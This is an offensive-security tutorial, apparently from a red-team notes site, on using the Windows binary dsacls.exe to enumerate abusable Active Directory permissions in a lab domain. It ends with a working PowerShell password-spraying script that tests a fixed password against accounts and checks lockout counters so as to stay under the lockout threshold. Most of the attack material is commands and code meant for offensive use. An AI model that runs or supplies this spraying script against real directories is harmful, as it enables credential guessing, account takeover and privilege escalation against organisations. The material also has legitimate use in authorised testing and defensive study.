

# Enumerating AD Object Permissions with dsacls

It is possible to use a native windows binary \(in addition to powershell cmdlet `Get-Acl`\) to enumerate Active Directory object security persmissions. The binary of interest is `dsacls.exe`.

Dsacls allows us to display or modify permissions \(ACLS\) of an Active Directory Domain Services \(AD DS\).

## Execution

Let's check if user `spot` has any special permissions against user's `spotless` AD object:


```csharp
dsacls.exe "cn=spotless,cn=users,dc=offense,dc=local" | select-string "spot"
```


Nothing useful:


Let's give user spot `Reset Password` and `Change Password` permissions on `spotless` AD object:


...and try the command again:


```csharp
dsacls.exe "cn=spotless,cn=users,dc=offense,dc=local" | select-string "spot"
```



### Full Control

All well known \(and abusable\) AD object permissions should be sought here. One of them is `FULL CONTROL`:


```csharp
dsacls.exe "cn=spotless,cn=users,dc=offense,dc=local" | select-string "full control"
```




### Add/Remove self as member


```csharp
dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" | select-string "spotless"
```



### WriteProperty/ChangeOwnerShip


Enumerating AD object permissions this way does not come in a nice format that can be piped between powershell cmd-lets, but it's still something to keep in mind if you do not the ability to use tools like powerview or ActiveDirectory powershell cmdlets or if you are trying to `LOL`.

For more good privileges to be abused:





## Password Spraying Anyone?

As a side note, the `dsacls` binary could be used to do LDAP password spraying as it allows us to bind to an LDAP session with a specified username and password:


```csharp
dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:spotless@offense.local /passwd:1234567
```




```csharp
dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:spotless@offense.local /passwd:123456
```



### Dirty POC idea for Password Spraying:


```csharp
$domain = ((cmd /c set u)[-3] -split "=")[-1]
$pdc = ((nltest.exe /dcname:$domain) -split "\\\\")[1]
$lockoutBadPwdCount = ((net accounts /domain)[7] -split ":" -replace " ","")[1]
$password = "123456"

# (Get-Content users.txt)
"krbtgt","spotless" | % {
    $badPwdCount = Get-ADObject -SearchBase "cn=$_,cn=users,dc=$domain,dc=local" -Filter * -Properties badpwdcount -Server $pdc | Select-Object -ExpandProperty badpwdcount
    if ($badPwdCount -lt $lockoutBadPwdCount - 3) {
        $isInvalid = dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:$_@offense.local /passwd:$password | select-string -pattern "Invalid Credentials"
        if ($isInvalid -match "Invalid") {
            Write-Host "[-] Invalid Credentials for $_ : $password" -foreground red
        } else {
            Write-Host "[+] Working Credentials for $_ : $password" -foreground green
        }        
    }
}
```



## References




